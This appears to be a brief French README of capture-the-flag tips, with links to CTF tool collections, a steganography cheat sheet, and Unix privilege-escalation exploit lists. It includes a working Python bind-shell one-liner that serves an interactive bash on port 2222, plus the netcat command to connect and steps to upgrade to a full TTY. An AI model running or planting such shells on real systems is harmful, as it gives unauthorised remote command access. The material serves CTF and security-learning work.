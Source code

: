 Tips et tools utiles pour les CTFs

# Tips
## Unix 
Merci à @Clayno pour ses tips!

### Obtenir un shell
Pour ouvrir une connexion sur le port 2222:
```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
La connexion sur l'hôte se fait via 
```
nc -nv [adresse] 2222
```
Améliorer le shell en pty et avoir l'autocomplétion:
```
python -c "import pty; pty.spawn('/bin/bash')"
CTRL+Z
stty raw -echo
fg
```
### Tools pour palier le manque d'inspiration 
Checker les différents tools : https://github.com/zardus/ctf-tools

## Steganographie
Tester zsteg

Cheat sheet : https://pequalsnp-team.github.io/cheatsheet/steganography-101


## Privesc

Liste d'exploit : https://github.com/FuzzySecurity/Unix-PrivEsc
Privesc checker : https://github.com/pentestmonkey/unix-privesc-check (ESSAYER LES DEUX BRANCHES)
